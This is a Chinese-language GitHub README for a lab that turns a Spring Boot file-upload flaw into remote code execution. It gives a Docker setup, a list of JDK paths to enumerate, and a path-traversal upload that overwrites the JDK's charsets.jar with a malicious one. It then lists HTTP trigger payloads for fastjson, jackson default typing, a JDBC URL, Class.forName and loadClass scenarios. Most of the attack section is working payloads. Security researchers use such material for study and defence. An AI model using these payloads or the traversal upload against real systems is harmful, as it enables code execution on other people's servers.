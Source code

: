 ## spring-boot-upload-file-lead-to-rce-tricks


### 一. docker 漏洞环境搭建

```
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.1
docker run -d -p 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.1
```



访问 http://127.0.0.1:18081/ 



### 二. 相关文章

[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)



### 三. 常见 JDK 目录收集

欢迎补充👏～

```
/usr/lib/jvm/java-8-oracle/jre/lib/
/usr/lib/jvm/java-1.8-openjdk/jre/lib/
/usr/lib/jvm/java-8-openjdk-amd64/jre/lib/
```



### 四. docker 漏洞环境的功能

- 1. 文件上传功能 (默认上传到 /tmp/ 目录，可跳目录）
- 2. 列目录功能     (列出 /tmp/ 目录下文件)



### 五. 漏洞利用条件

- 1. 可以获得 jdk 安装的 home 目录位置
- (可收集常见 jdk 默认安装目录位置，然后使用字典枚举尝试)

- 2. jdk 自带文件 `/jre/lib/***.jar` 没被 `Opened` 过
- (以 charsets.jar 文件举例：程序代码中不使用 `Charset.forName("GBK")` 类似的调用，默认就不会加载到 charsets.jar 文件)



### 六. 漏洞利用步骤

1. 选择上传文件 [charsets.jar](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/release/charsets.jar)

2. 使用上传文件功能，上传时用 burpsuite 截住数据包，filename 修改为 `../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

3. 上传成功后使用数据包触发漏洞

4. 漏洞触发成功会在 /tmp/ 目录产生 charsets_test_[random-string].log 样式名字的文件

5. 最后使用列目录功能查看漏洞利用是否成功



### 七. 漏洞利用场景：(5 个)

#### 1. fastjson 最新版(目前是 1.2.76)默认配置场景

正常数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{"name":"test"}
```

触发漏洞数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"500"
    }
}
```



#### 2. jackson 开启 enableDefaultTyping 场景

正常数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["code.landgrey.bean.User",{"name":"zhangsan","age":20,"car":{"brand":"daben","price":1000000},"secret":"Pas@5w0rd"}]
```

触发漏洞数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["sun.nio.cs.ext.IBM33722",{"x":"y"}]
```



#### 3. jdbc url getConnection 场景

正常数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?user=root&password=123456
```

触发漏洞数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722
```



#### 4. Class forName 场景

正常数据包：

```
GET /classForName?name=code.landgrey.bean.Car
```

触发漏洞数据包：

```
GET /classForName?name=sun.nio.cs.ext.IBM33722
```



#### 5. loadClass newInstance 场景

正常数据包：

```
GET /classLoader?name=code.landgrey.bean.User
```

触发漏洞数据包：

```
GET /classLoader?name=sun.nio.cs.ext.IBM33722
```

